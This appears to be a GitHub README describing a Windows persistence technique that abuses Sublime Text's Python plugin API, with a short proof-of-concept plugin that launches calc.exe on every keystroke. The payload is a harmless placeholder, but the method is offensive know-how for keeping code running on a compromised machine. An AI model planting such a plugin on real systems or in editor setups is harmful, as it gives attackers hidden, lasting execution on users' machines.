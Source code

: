 # Sublime-persistence
Windows persistence method that abuses sublime packages.

Sublime text allows the ability to create custom plugins written in python. 
An API reference is posted below.
https://www.sublimetext.com/docs/api_reference.html

In the below python script we define a class called 'OpenCalcOnModified' which invokes the on_modified function. 
When a keystroke is detected within the sublime text editor, the .POpen() method in the subproccess module executes calc.exe.  

```import sublime
import sublime_plugin
import subprocess


class OpenCalcOnModified(sublime_plugin.EventListener):
    def on_modified(self, view):
        subprocess.Popen('calc.exe', shell=True)```






